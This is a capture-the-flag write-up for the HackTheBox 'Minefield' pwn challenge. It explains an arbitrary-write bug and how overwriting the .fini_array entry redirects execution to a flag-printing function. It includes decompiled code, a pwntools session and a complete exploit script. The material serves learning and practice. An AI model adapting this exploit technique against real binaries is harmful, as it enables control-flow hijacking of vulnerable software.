 ```yaml
--- 
layout: post 
title:  "[CA HTB] Minefield"
date: "2021-04-25" 
categories: PWN 
author: eurus 
---
```


I didn't solve this challenge in the race, but I only understood how to solve it after reading a writeup and understanding how the ``` .fini ``` and the ``` .fini_array ``` work.

This challenge is very easy but you need to know what are the sections  ``` .fini ``` and ``` .fini_array ```.


```bash
In [1]: from pwn import *

In [2]: context.binary = elf = ELF('./minefield')
[*] '/home/eurus/Documents/minefield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
We can see here the protection enabled in this elf. Important for this challege are No RELRO and No PIE.

We can start to analyze what the program does:

```bash
┌──(eurus㉿ctf)-[~/Documents/minefield]
└─$ ./minefield 
Are you ready to plant the mine?
1. No.
2. Yes, I am ready.
> 2
We are ready to proceed then!
Insert type of mine: 2
Insert location to plant: 3
We need to get out of here as soon as possible. Run!
zsh: segmentation fault  ./minefield
```
So we have two user input if we respond at the first question that we are ready to plat a mine. And after that we give this input we have a segmentation fault.

Analyzing this elf with a disassembler we can see that we have a function called ``` _ ``` that cat the flag from the server, so we dont neeto to spawn a shell but we need just to redirect the flow of the program to this function.

```c
unsigned __int64 _(){
  size_t s_len; // rax
  unsigned __int64 canary; // [rsp+8h] [rbp-8h]

  canary = __readfsqword(0x28u);
  s_len = strlen(aMissionAccompl);
  write(1, aMissionAccompl, s_len);
  system("cat flag*");
  return __readfsqword(0x28u) ^ canary;
}
```

In the program there are a funtion interesting. This id the ``` mission ``` function. It take 2 input (type of mine and location plant), it use ``` strtoull ``` The strtoul() function converts the initial part of the string in nptr to an unsigned long int value according to the given base, which must be between 2 and 36 inclusive, or be the special value 0. So this funtion convert the value of the sting into ull value. 

We can see that our input is taken by the r function, this function read from stdin only 9 bytes into nptr and so this mean that our input is only 9 char

```c
unsigned __int64 mission(){
  _QWORD *v1; // [rsp+0h] [rbp-30h]
  char nptr[10]; // [rsp+14h] [rbp-1Ch] BYREF
  char v3[10]; // [rsp+1Eh] [rbp-12h] BYREF
  unsigned __int64 canary; // [rsp+28h] [rbp-8h]

  canary = __readfsqword(0x28u);
  printf("Insert type of mine: ");
  r(nptr);
  ptr_write = (_QWORD *)strtoull(nptr, 0LL, 0);
  printf("Insert location to plant: ");
  r(value_write);
  puts("We need to get out of here as soon as possible. Run!");
  *ptr_write = strtoull(value_write, 0LL, 0);
  return __readfsqword(0x28u) ^ canary;
}

unsigned __int64 __fastcall r(void *nptr){
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  canary = __readfsqword(0x28u);
  read(0, nptr, 9uLL);
  return __readfsqword(0x28u) ^ canary;
}

```


So the mission function do this:
1. take 9 char as input 
2. convert this input into a value ull named ``` ptr_write ```
3. take another input of 9 char as imput
4. convert this input into a value ull named ``` value_write ```
5. finally writes ``` value_write ``` inside the memory at address ``` ptr_write ```

**So we can write in any position of the program what we want... at least seems**

My first thing was owerwrite the GOT for ``` __stack_chk_fail ``` with the address of ``` _ ``` and attemp to modify the canary in order to call the function ``` __stack_chk_fail ``` but we cannot modify the canary, the read are *safe* as far as this program can be described as safe!

Second thought: overwrite the return address in the stack that we knoe because PIE is disabled, BUT ``` rip ``` is located on ``` 0x7fffffffdf78 ``` address inside mission function and we can insert only 9 characters so It's impossible. 

Here i was stuck. But then reading the solution I learned something new. 

```bash
.init	00000000004006C0	00000000004006D7	R	.	X	.	L	dword	0004	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.init_array	0000000000601070	0000000000601078	R	W	.	.	L	qword	000B	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini	0000000000400CA4	0000000000400CAD	R	.	X	.	L	dword	0007	public	CODE	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
.fini_array	0000000000601078	0000000000601080	R	W	.	.	L	qword	000C	public	DATA	64	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF	000F	FFFFFFFFFFFFFFFF	FFFFFFFFFFFFFFFF
```

inside the binary we have this two segment. 
>The .init and .fini sections have a special purpose. If a function is placed in the .init section, the system will execute it before the main function. Also the functions placed in the .fini section will be executed by the system after the main function returns.

SO we can overwrite the ``` .fini_aray ``` with the address of the function ``` _ ``` and when pte program return correctly it will execute our function! lets see

```bash
In [24]: p = elf.process()
[x] Starting local process '/home/eurus/Documents/minefield/minefield'
[+] Starting local process '/home/eurus/Documents/minefield/minefield': pid 2046

In [25]: p.sendline('2')

In [26]: p.recvuntil(': ')
Out[26]: b'Are you ready to plant the mine?\n1. No.\n2. Yes, I am ready.\n> We are ready to proceed then!\nInsert type of mine: '

In [27]: p.sendline(str(fini_arr))

In [28]: p.recvuntil(': ')
Out[28]: b'Insert location to plant: '

In [29]: p.sendline(str(hex(elf.sym['_'])))

In [30]: p.interactive()
[*] Switching to interactive mode
[*] Process '/home/eurus/Documents/minefield/minefield' stopped with exit code 0 (pid 2046)
We need to get out of here as soon as possible. Run!

Mission accomplished! ✔
HACKAPPATOI{4n0th3r_fl4g} 
[*] Got EOF while reading in interactive

```

and this is the script.

```python
from pwn import *

context.binary = elf = ELF('./minefield')

p = elf.process()

fini_arr = 0x601078

p.sendline('2')
p.recvuntil(': ')
p.sendline(str(fini_arr))
p.recvuntil(': ')
p.sendline(str(hex(elf.sym['_'])))
res = p.recvall()
log.info(str(res).split('\\n')[-2])
```



